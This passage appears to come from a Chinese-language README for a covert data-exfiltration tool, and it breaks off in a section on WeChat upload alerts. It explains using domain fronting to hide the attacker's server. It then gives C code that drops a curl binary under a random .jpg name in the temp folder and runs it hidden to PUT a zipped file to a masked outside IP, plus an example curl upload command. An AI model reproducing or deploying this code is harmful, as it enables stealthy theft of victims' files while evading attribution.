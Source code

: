 

直接请求容易暴露自己的服务器地址，增加溯源风险，所以这里用到了域前置，有效的隐藏服务器地址
在临时目录下释放curl客户端原文件，设置CreateProcess STARTUPINFO中的wShowWindow为SW_HIDE，进程以隐藏的方式在后台运行上传。
example：curl.exe -X PUT –upload-file xxx.zip 202.xxx.xxx.xx -H “Host:login.x.com”

```
// 客户端上传
	char name[20];
	char *exe = randstr(name, 7);
	strcat_s(SaveFile, strTmpPath);
	strcat_s(SaveFile, exe);
	strcat_s(SaveFile, TEXT(".jpg"));
	BOOL bRes = ReleaseLibrary(IDR_LLFK1, (CHAR*)"LLFK", (CHAR*)SaveFile);

	strcat(SaveFile, (" -X PUT --upload-file "));
	strcat(SaveFile, (tempzip));
	strcat(SaveFile, TEXT(" x8.xx1.x0.13 -H  \"Host:login.com\" "));

	STARTUPINFO StartupInfo;
	PROCESS_INFORMATION   ProcessInfo;
	GetStartupInfo(&StartupInfo);
	StartupInfo.lpReserved = NULL;
	StartupInfo.lpDesktop = NULL;
	StartupInfo.lpTitle = NULL;
	StartupInfo.dwX = 0;
	StartupInfo.dwY = 0;
	StartupInfo.dwXSize = 0;
	StartupInfo.dwYSize = 0;
	StartupInfo.dwXCountChars = 500;
	StartupInfo.dwYCountChars = 500;
	StartupInfo.dwFlags = STARTF_USESHOWWINDOW;
	StartupInfo.wShowWindow = SW_HIDE;
	StartupInfo.cbReserved2 = 0;
	StartupInfo.lpReserved2 = NULL;
	StartupInfo.hStdInput = stdin;
	StartupInfo.hStdOutput = stdout;
	StartupInfo.hStdError = stderr;
	CreateProcessA(NULL, SaveFile, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &StartupInfo, &ProcessInfo);
	//}
```



### 数据监控

文件上传成功后使用Server酱进行文件上传提醒

- 登入：用GitHub账号[登入网站](http://sc.ftqq.com/?c=github&a=login)，就能获得一个[SCKEY](http://sc.ftqq.com/?c=code)（在「[发送消息](http://sc.ftqq.com/?c=code)」页面）

- 绑定：点击「[微信推送](http://sc.ftqq.com/?c=wechat&a=bind)」，扫码关注同时即可完成绑定

- 发消息：往
